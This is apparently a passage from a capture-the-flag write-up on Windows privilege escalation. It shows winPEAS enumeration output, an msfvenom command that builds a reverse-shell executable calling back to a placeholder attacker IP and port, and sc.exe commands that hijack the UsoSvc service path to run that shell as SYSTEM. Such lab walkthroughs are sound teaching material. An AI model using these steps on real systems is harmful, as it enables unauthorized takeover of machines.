 ## Enumeration from the inside

We can download winPEAS on to the target from our local machine and run it to get privilege escalation info.

![winpeas](images/winpeas.png)

The most interesting parts of this scan were:

```bash
+] Modifiable Services
 [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
  LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
  UsoSvc: AllAccess, Start
```
and...

```bash
[+] Installed Applications --Via Program Files/Uninstall registry--
 [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
  C:\Program Files (x86)\TeamViewer\Version7
```

# Privilege Escalation #1

To exploit the UsoSvc service, we will create a malicious file and add it to the service path so it is ran as SYSTEM.

First create the payload on your local machine with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f exe > shell.exe
```

Download the shell on to the target with curl or whatever you want to use and then modify the service path.

```powershell
PS C:\windows\temp> sc.exe stop UsoSvc

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530
PS C:\windows\temp> sc.exe config UsoSvc binPath="C:\windows\temp\shell.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\windows\temp> sc.exe start UsoSvc
```
